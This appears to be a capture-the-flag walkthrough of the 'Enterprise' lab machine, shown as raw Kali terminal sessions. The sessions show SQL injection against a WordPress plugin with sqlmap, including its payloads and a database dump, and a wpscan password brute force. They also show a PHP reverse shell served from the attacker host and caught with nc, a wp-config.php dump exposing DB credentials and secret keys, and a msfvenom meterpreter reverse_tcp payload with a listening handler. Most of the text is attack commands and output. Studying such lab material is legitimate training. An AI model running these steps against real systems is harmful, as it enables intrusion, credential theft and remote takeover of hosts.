Archive:  lcars.zip
  inflating: lcars/lcars/lcars_db.php
  inflating: lcars/lcars/lcars_dbpost.php
  inflating: lcars/lcars/lcars.php
root@kali:~/enterprise# cd lcars/
root@kali:~/enterprise/lcars# ls
lcars
root@kali:~/enterprise/lcars# cd lcars/
root@kali:~/enterprise/lcars/lcars# ls
lcars_db.php  lcars_dbpost.php  lcars.php
root@kali:~/enterprise/lcars/lcars#
```

`lcars.php`

```php
<?php
/*
*     Plugin Name: lcars
*     Plugin URI: enterprise.htb
*     Description: Library Computer Access And Retrieval System
*     Author: Geordi La Forge
*     Version: 0.2
*     Author URI: enterprise.htb
*                             */

// Need to create the user interface.

// need to finsih the db interface

// need to make it secure

?>
```

`lcars_dbpost.php`

```php
<?php
include "/var/www/html/wp-config.php";
$db = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
// Test the connection:
if (mysqli_connect_errno()){
    // Connection Error
    exit("Couldn't connect to the database: ".mysqli_connect_error());
}


// test to retireve a post name
if (isset($_GET['query'])){
    $query = (int)$_GET['query'];
    $sql = "SELECT post_title FROM wp_posts WHERE ID = $query";
    $result = $db->query($sql);
    if ($result){
        $row = $result->fetch_row();
        if (isset($row[0])){
            echo $row[0];
        }
    }
} else {
    echo "Failed to read query";
}


?>
```

`lcars_db.php`

```php
<?php
include "/var/www/html/wp-config.php";
$db = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
// Test the connection:
if (mysqli_connect_errno()){
    // Connection Error
    exit("Couldn't connect to the database: ".mysqli_connect_error());
}


// test to retireve an ID
if (isset($_GET['query'])){
    $query = $_GET['query'];
    $sql = "SELECT ID FROM wp_posts WHERE post_name = $query";
    $result = $db->query($sql);
    echo $result;
} else {
    echo "Failed to read query";
}


?>
```


```
http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1
```


```sh
root@kali:~/enterprise# cat lcars_db.req
GET /wp-content/plugins/lcars/lcars_db.php?query=1 HTTP/1.1
Host: enterprise.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

root@kali:~/enterprise#
```

```sh
root@kali:~/enterprise# sqlmap -l lcars_db.req --dbms mysql
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.3#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 00:13:26

[00:13:26] [INFO] sqlmap parsed 1 (parameter unique) requests from the targets list ready to be tested
URL 1:
GET http://enterprise.htb:80/wp-content/plugins/lcars/lcars_db.php?query=1
do you want to test this URL? [Y/n/q]
>
[00:13:30] [INFO] testing URL 'http://enterprise.htb:80/wp-content/plugins/lcars/lcars_db.php?query=1'
[00:13:30] [INFO] using '/root/.sqlmap/output/results-05302018_1213am.csv' as the CSV results file in multiple targets mode
[00:13:30] [INFO] testing connection to the target URL
[00:13:32] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[00:13:32] [INFO] testing if the target URL content is stable
[00:13:32] [INFO] target URL content is stable
[00:13:32] [INFO] testing if GET parameter 'query' is dynamic
[00:13:33] [WARNING] GET parameter 'query' does not appear to be dynamic
[00:13:33] [WARNING] heuristic (basic) test shows that GET parameter 'query' might not be injectable
[00:13:33] [INFO] testing for SQL injection on GET parameter 'query'
[00:13:33] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[00:13:36] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Parameter replace'
[00:13:37] [INFO] GET parameter 'query' appears to be 'MySQL >= 5.0 boolean-based blind - Parameter replace' injectable (with --string="fatal")
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
[00:13:38] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[00:13:38] [INFO] GET parameter 'query' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[00:13:39] [INFO] testing 'MySQL inline queries'
[00:13:39] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[00:13:39] [WARNING] time-based comparison requires larger statistical model, please wait.......... (done)
[00:13:52] [INFO] GET parameter 'query' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable
[00:13:52] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[00:13:52] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[00:13:52] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[00:13:54] [INFO] target URL appears to have 1 column in query
GET parameter 'query' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 43 HTTP(s) requests:
---
Parameter: query (GET)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: query=(SELECT (CASE WHEN (8686=8686) THEN 8686 ELSE 8686*(SELECT 8686 FROM INFORMATION_SCHEMA.PLUGINS) END))

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: query=1 AND (SELECT 9764 FROM(SELECT COUNT(*),CONCAT(0x71766b7a71,(SELECT (ELT(9764=9764,1))),0x716b627a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: query=1 AND SLEEP(5)
---
do you want to exploit this SQL injection? [Y/n]
[00:14:00] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 8.0 (jessie)
web application technology: PHP 5.6.31, Apache 2.4.10
back-end DBMS: MySQL >= 5.0
[00:14:00] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/root/.sqlmap/output/results-05302018_1213am.csv'

[*] shutting down at 00:14:00

root@kali:~/enterprise#
```

```sh
root@kali:~/enterprise# sqlmap -l lcars_db.req --dbms mysql --dump
```

```sh
root@kali:~/.sqlmap/output/enterprise.htb/dump/wordpress# ls -lah
total 160K
drwxr-xr-x 2 root root 4.0K May 30 01:19 .
drwxr-xr-x 3 root root 4.0K May 30 00:33 ..
-rw-r--r-- 1 root root   40 May 30 00:34 wp_commentmeta.csv
-rw-r--r-- 1 root root 5.4K May 30 00:45 wp_comments.csv
-rw-r--r-- 1 root root  146 May 30 00:44 wp_links.csv
-rw-r--r-- 1 root root  54K May 30 01:06 wp_options.csv
-rw-r--r-- 1 root root  16K May 30 01:18 wp_postmeta.csv
-rw-r--r-- 1 root root  38K May 30 00:33 wp_posts.csv
-rw-r--r-- 1 root root   37 May 30 01:19 wp_termmeta.csv
-rw-r--r-- 1 root root  129 May 30 01:19 wp_term_relationships.csv
-rw-r--r-- 1 root root  124 May 30 00:44 wp_terms.csv
-rw-r--r-- 1 root root  135 May 30 00:34 wp_term_taxonomy.csv
-rw-r--r-- 1 root root  623 May 30 01:07 wp_usermeta.csv
-rw-r--r-- 1 root root 1.4K May 30 00:43 wp_users.csv
root@kali:~/.sqlmap/output/enterprise.htb/dump/wordpress#
```

```sh
root@kali:~/.sqlmap/output/enterprise.htb/dump/wordpress# less -S wp_posts.csv
```


```sh
root@kali:~/enterprise# cat password
ZxJyhGem4k338S2Y
enterprisencc170
ZD3YxfnSjezg67JZ
u*Z14ru0p#ttj83zS6
root@kali:~/enterprise#
```

```sh
root@kali:~/enterprise# wpscan --url http://10.10.10.61 --username william.riker --wordlist `pwd`/password
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 2.9.3
          Sponsored by Sucuri - https://sucuri.net
   @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
_______________________________________________________________

[+] URL: http://10.10.10.61/
[+] Started: Wed May 30 01:35:53 2018

[!] The WordPress 'http://10.10.10.61/readme.html' file exists exposing a version number
[!] Full Path Disclosure (FPD) in 'http://10.10.10.61/wp-includes/rss-functions.php':
[+] Interesting header: LINK: <http://enterprise.htb/index.php?rest_route=/>; rel="https://api.w.org/"
[+] Interesting header: SERVER: Apache/2.4.10 (Debian)
[+] Interesting header: X-POWERED-BY: PHP/5.6.31
[+] XML-RPC Interface available under: http://10.10.10.61/xmlrpc.php

[+] WordPress version 4.8.1 (Released on 2017-08-02) identified from links opml, stylesheets numbers, advanced fingerprinting, meta generator
[!] 17 vulnerabilities identified from the version number

[!] Title: WordPress 2.3.0-4.8.1 - $wpdb->prepare() potential SQL Injection
    Reference: https://wpvulndb.com/vulnerabilities/8905
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/70b21279098fc973eae803693c0705a548128e48
    Reference: https://github.com/WordPress/WordPress/commit/fc930d3daed1c3acef010d04acc2c5de93cd18ec
[i] Fixed in: 4.8.2

[!] Title: WordPress 2.9.2-4.8.1 - Open Redirect
    Reference: https://wpvulndb.com/vulnerabilities/8910
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41398
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14725
[i] Fixed in: 4.8.2

[!] Title: WordPress 3.0-4.8.1 - Path Traversal in Unzipping
    Reference: https://wpvulndb.com/vulnerabilities/8911
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41457
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14719
[i] Fixed in: 4.8.2

[!] Title: WordPress 4.4-4.8.1 - Path Traversal in Customizer
    Reference: https://wpvulndb.com/vulnerabilities/8912
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41397
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14722
[i] Fixed in: 4.8.2

[!] Title: WordPress 4.4-4.8.1 - Cross-Site Scripting (XSS) in oEmbed
    Reference: https://wpvulndb.com/vulnerabilities/8913
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41448
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14724
[i] Fixed in: 4.8.2

[!] Title: WordPress 4.2.3-4.8.1 - Authenticated Cross-Site Scripting (XSS) in Visual Editor
    Reference: https://wpvulndb.com/vulnerabilities/8914
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41395
    Reference: https://blog.sucuri.net/2017/09/stored-cross-site-scripting-vulnerability-in-wordpress-4-8-1.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14726
[i] Fixed in: 4.8.2

[!] Title: WordPress 2.3-4.8.3 - Host Header Injection in Password Reset
    Reference: https://wpvulndb.com/vulnerabilities/8807
    Reference: https://exploitbox.io/vuln/WordPress-Exploit-4-7-Unauth-Password-Reset-0day-CVE-2017-8295.html
    Reference: http://blog.dewhurstsecurity.com/2017/05/04/exploitbox-wordpress-security-advisories.html
    Reference: https://core.trac.wordpress.org/ticket/25239
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8295

[!] Title: WordPress <= 4.8.2 - $wpdb->prepare() Weakness
    Reference: https://wpvulndb.com/vulnerabilities/8941
    Reference: https://wordpress.org/news/2017/10/wordpress-4-8-3-security-release/
    Reference: https://github.com/WordPress/WordPress/commit/a2693fd8602e3263b5925b9d799ddd577202167d
    Reference: https://twitter.com/ircmaxell/status/923662170092638208
    Reference: https://blog.ircmaxell.com/2017/10/disclosure-wordpress-wpdb-sql-injection-technical.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-16510
[i] Fixed in: 4.8.3

[!] Title: WordPress 2.8.6-4.9 - Authenticated JavaScript File Upload
    Reference: https://wpvulndb.com/vulnerabilities/8966
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/67d03a98c2cae5f41843c897f206adde299b0509
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17092
[i] Fixed in: 4.8.4

[!] Title: WordPress 1.5.0-4.9 - RSS and Atom Feed Escaping
    Reference: https://wpvulndb.com/vulnerabilities/8967
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/f1de7e42df29395c3314bf85bff3d1f4f90541de
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17094
[i] Fixed in: 4.8.4

[!] Title: WordPress 4.3.0-4.9 - HTML Language Attribute Escaping
    Reference: https://wpvulndb.com/vulnerabilities/8968
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/3713ac5ebc90fb2011e98dfd691420f43da6c09a
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17093
[i] Fixed in: 4.8.4

[!] Title: WordPress 3.7-4.9 - 'newbloguser' Key Weak Hashing
    Reference: https://wpvulndb.com/vulnerabilities/8969
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/eaf1cfdc1fe0bdffabd8d879c591b864d833326c
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17091
[i] Fixed in: 4.8.4

[!] Title: WordPress 3.7-4.9.1 - MediaElement Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/9006
    Reference: https://github.com/WordPress/WordPress/commit/3fe9cb61ee71fcfadb5e002399296fcc1198d850
    Reference: https://wordpress.org/news/2018/01/wordpress-4-9-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/ticket/42720
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-5776
[i] Fixed in: 4.8.5

[!] Title: WordPress <= 4.9.4 - Application Denial of Service (DoS) (unpatched)
    Reference: https://wpvulndb.com/vulnerabilities/9021
    Reference: https://baraktawily.blogspot.fr/2018/02/how-to-dos-29-of-world-wide-websites.html
    Reference: https://github.com/quitten/doser.py
    Reference: https://thehackernews.com/2018/02/wordpress-dos-exploit.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389

[!] Title: WordPress 3.7-4.9.4 - Remove localhost Default
    Reference: https://wpvulndb.com/vulnerabilities/9053
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/804363859602d4050d9a38a21f5a65d9aec18216
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10101
[i] Fixed in: 4.8.6

[!] Title: WordPress 3.7-4.9.4 - Use Safe Redirect for Login
    Reference: https://wpvulndb.com/vulnerabilities/9054
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/14bc2c0a6fde0da04b47130707e01df850eedc7e
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10100
[i] Fixed in: 4.8.6

[!] Title: WordPress 3.7-4.9.4 - Escape Version in Generator Tag
    Reference: https://wpvulndb.com/vulnerabilities/9055
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/31a4369366d6b8ce30045d4c838de2412c77850d
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10102
[i] Fixed in: 4.8.6

[+] WordPress theme in use: twentyseventeen - v1.3

[+] Name: twentyseventeen - v1.3
 |  Last updated: 2018-05-17T00:00:00.000Z
 |  Location: http://10.10.10.61/wp-content/themes/twentyseventeen/
 |  Readme: http://10.10.10.61/wp-content/themes/twentyseventeen/README.txt
[!] The version is out of date, the latest version is 1.6
 |  Style URL: http://10.10.10.61/wp-content/themes/twentyseventeen/style.css
 |  Referenced style.css: http://enterprise.htb/wp-content/themes/twentyseventeen/style.css
 |  Theme Name: Twenty Seventeen
 |  Theme URI: https://wordpress.org/themes/twentyseventeen/
 |  Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a...
 |  Author: the WordPress team
 |  Author URI: https://wordpress.org/

[+] Enumerating plugins from passive detection ...
[+] No plugins found
[+] Starting the password brute forcer
  [!] ERROR: We received an unknown response for login: william.riker and password: u*Z14ru0p#ttj83zS6
  Brute Forcing 'william.riker' Time: 00:00:02 <==================================================                                                                           > (2 / 5) 40.00%  ETA: 00:00:05

  +----+---------------+------+----------+
  | Id | Login         | Name | Password |
  +----+---------------+------+----------+
  |    | william.riker |      |          |
  +----+---------------+------+----------+

[+] Finished: Wed May 30 01:36:29 2018
[+] Requests Done: 56
[+] Memory used: 37.637 MB
[+] Elapsed time: 00:00:36
root@kali:~/enterprise#
```


###### Reverse Shell on Wordpress docker

```sh
root@kali:~/enterprise# locate php-reverse-shell.php
/usr/share/beef-xss/modules/exploits/m0n0wall/php-reverse-shell.php
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
root@kali:~/enterprise#
root@kali:~/enterprise# cp /usr/share/webshells/php/php-reverse-shell.php .
root@kali:~/enterprise# nano php-reverse-shell.php
```


```sh
root@kali:~/enterprise# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.61 - - [30/May/2018 01:56:43] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```

```sh
root@kali:~/enterprise# nc -nlvp 3344
listening on [any] 3344 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.61] 55792
Linux b8319d86d21e 4.10.0-37-generic #41-Ubuntu SMP Fri Oct 6 20:20:37 UTC 2017 x86_64 GNU/Linux
 05:57:29 up 2 days,  3:34,  0 users,  load average: 0.00, 0.13, 2.35
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 1: python: not found
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 2: python3: not found
$ ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:11:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.3/16 scope global eth0
       valid_lft forever preferred_lft forever
$ ip neigh
172.17.0.2 dev eth0 lladdr 02:42:ac:11:00:02 REACHABLE
172.17.0.1 dev eth0 lladdr 02:42:9b:22:45:67 REACHABLE
$ cd /var/www/html
$ ls -lah
total 212K
drwxr-xr-x  5 www-data www-data 4.0K May 28 02:23 .
drwxr-xr-x  4 root     root     4.0K Jul 24  2017 ..
-rw-r--r--  1 www-data www-data   35 Sep  3  2017 .htaccess
-rw-r--r--  1 www-data www-data  418 Sep 25  2013 index.php
-rw-r--r--  1 www-data www-data  20K Jan  2  2017 license.txt
-rw-r--r--  1 www-data www-data 7.3K Dec 12  2016 readme.html
-rw-r--r--  1 www-data www-data 8.0K Sep  7  2017 sqlShell.php
-rw-r--r--  1 www-data www-data 5.4K Sep 27  2016 wp-activate.php
drwxr-xr-x  9 www-data www-data 4.0K Aug  2  2017 wp-admin
-rw-r--r--  1 www-data www-data  364 Dec 19  2015 wp-blog-header.php
-rw-r--r--  1 www-data www-data 1.6K Aug 29  2016 wp-comments-post.php
-rw-r--r--  1 www-data www-data 2.7K May 28 02:23 wp-config-sample.php
-rw-r--r--  1 www-data www-data 3.1K May 28 02:23 wp-config.php
drwxr-xr-x  7 www-data www-data 4.0K Oct 17  2017 wp-content
-rw-r--r--  1 www-data www-data 3.3K May 24  2015 wp-cron.php
drwxr-xr-x 18 www-data www-data  12K Aug  2  2017 wp-includes
-rw-r--r--  1 www-data www-data 2.4K Nov 21  2016 wp-links-opml.php
-rw-r--r--  1 www-data www-data 3.3K Oct 25  2016 wp-load.php
-rw-r--r--  1 www-data www-data  34K May 12  2017 wp-login.php
-rw-r--r--  1 www-data www-data 7.9K Jan 11  2017 wp-mail.php
-rw-r--r--  1 www-data www-data  16K Apr  6  2017 wp-settings.php
-rw-r--r--  1 www-data www-data  30K Jan 24  2017 wp-signup.php
-rw-r--r--  1 www-data www-data 4.5K Oct 14  2016 wp-trackback.php
-rw-r--r--  1 www-data www-data 3.0K Aug 31  2016 xmlrpc.php
$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'NCC-1701E');

/** MySQL hostname */
define('DB_HOST', 'mysql');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define('AUTH_KEY',         '2bfc1650943c2c5b62e31637481fdc04c5be50bf');
define('SECURE_AUTH_KEY',  '793b47a06051495f9700711b166fd1977882da54');
define('LOGGED_IN_KEY',    '60af8fe7325c75bbeec4ce140ac1f052f4d3d5cd');
define('NONCE_KEY',        'e8ca955667563b04b225c7268f8cf1f00c87c891');
define('AUTH_SALT',        'a3599324fb87ccfe09554ad9523765bf40a59c2a');
define('SECURE_AUTH_SALT', 'dd6752c340fd68909cd4e2f0eea03a3d8ef28279');
define('LOGGED_IN_SALT',   '9a01df7b37e2c700d4fadff98a8034d2b445addc');
define('NONCE_SALT',       '253750278534eb62736ed8ac986fd473c57acd3e');

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix  = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the Codex.
 *
 * @link https://codex.wordpress.org/Debugging_in_WordPress
 */
define('WP_DEBUG', false);

// If we're behind a proxy server and using HTTPS, we need to alert Wordpress of that fact
// see also http://codex.wordpress.org/Administration_Over_SSL#Using_a_Reverse_Proxy
if (isset($_SERVER['HTTP_X_FORWARDED_PROTO']) && $_SERVER['HTTP_X_FORWARDED_PROTO'] === 'https') {
	$_SERVER['HTTPS'] = 'on';
}

/* That's all, stop editing! Happy blogging. */

/** Absolute path to the WordPress directory. */
if ( !defined('ABSPATH') )
	define('ABSPATH', dirname(__FILE__) . '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');
$ cat /etc/hosts
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.17.0.2	mysql 15af95635b7d
172.17.0.3	b8319d86d21e
$ hostname
b8319d86d21e
$
```

###### Gaining access to mysql docker using msf and proxychain

```sh
root@kali:~/enterprise# msfvenom --list | grep mettle
    linux/aarch64/meterpreter/reverse_tcp               Inject the mettle server payload (staged). Connect back to the attacker
    linux/armle/meterpreter/bind_tcp                    Inject the mettle server payload (staged). Listen for a connection
    linux/armle/meterpreter/reverse_tcp                 Inject the mettle server payload (staged). Connect back to the attacker
    linux/mipsbe/meterpreter/reverse_tcp                Inject the mettle server payload (staged). Connect back to the attacker
    linux/mipsle/meterpreter/reverse_tcp                Inject the mettle server payload (staged). Connect back to the attacker
    linux/x64/meterpreter/bind_tcp                      Inject the mettle server payload (staged). Listen for a connection
    linux/x64/meterpreter/reverse_tcp                   Inject the mettle server payload (staged). Connect back to the attacker
    linux/x86/meterpreter/bind_ipv6_tcp                 Inject the mettle server payload (staged). Listen for an IPv6 connection (Linux x86)
    linux/x86/meterpreter/bind_ipv6_tcp_uuid            Inject the mettle server payload (staged). Listen for an IPv6 connection with UUID Support (Linux x86)
    linux/x86/meterpreter/bind_nonx_tcp                 Inject the mettle server payload (staged). Listen for a connection
    linux/x86/meterpreter/bind_tcp                      Inject the mettle server payload (staged). Listen for a connection (Linux x86)
    linux/x86/meterpreter/bind_tcp_uuid                 Inject the mettle server payload (staged). Listen for a connection with UUID Support (Linux x86)
    linux/x86/meterpreter/find_tag                      Inject the mettle server payload (staged). Use an established connection
    linux/x86/meterpreter/reverse_ipv6_tcp              Inject the mettle server payload (staged). Connect back to attacker over IPv6
    linux/x86/meterpreter/reverse_nonx_tcp              Inject the mettle server payload (staged). Connect back to the attacker
    linux/x86/meterpreter/reverse_tcp                   Inject the mettle server payload (staged). Connect back to the attacker
    linux/x86/meterpreter/reverse_tcp_uuid              Inject the mettle server payload (staged). Connect back to the attacker
    osx/x64/meterpreter/bind_tcp                        Inject the mettle server payload (staged). Listen, read length, read buffer, execute
    osx/x64/meterpreter/reverse_tcp                     Inject the mettle server payload (staged). Connect, read length, read buffer, execute
root@kali:~/enterprise#
root@kali:~/enterprise# msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.16 LPORT=8002 -f elf -o msf.bin
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 127 bytes
Final size of elf file: 247 bytes
Saved as: msf.bin
root@kali:~/enterprise#
root@kali:~/enterprise# file msf.bin
msf.bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, corrupted section header size
root@kali:~/enterprise#
```

```sh
root@kali:~/.sqlmap/output/enterprise.htb/dump/wordpress# msfconsole


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v4.16.48-dev                         ]
+ -- --=[ 1749 exploits - 1002 auxiliary - 302 post       ]
+ -- --=[ 536 payloads - 40 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.10.14.16
LHOST => 10.10.14.16
msf exploit(multi/handler) > set LPORT 8002
LPORT => 8002
msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.10.14.16:8002
msf exploit(multi/handler) >
```

```sh
root@kali:~/enterprise# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
